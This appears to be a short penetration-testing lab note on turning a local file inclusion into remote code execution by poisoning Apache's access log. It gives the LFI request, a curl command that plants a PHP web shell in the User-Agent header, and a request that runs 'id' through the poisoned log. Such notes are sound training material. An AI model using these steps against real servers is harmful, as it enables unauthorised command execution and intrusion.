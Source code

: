 
Able to read logs via LFI:

```bash
index.php?language=/var/log/apache2/access.log
```

Update User-Agent with the following, either using Burp or Curl:

```bash
User-Agent: <?php system($_GET['cmd']); ?>
curl -s "http://<SERVER_IP>:<PORT>/index.php" -A "<?php system($_GET['cmd']); ?>"
```

Visit logs again

```bash
/index.php?language=/var/log/apache2/access.log&cmd=id
```

Output can be seen in the log:

![[Pasted image 20250124134617.png]]


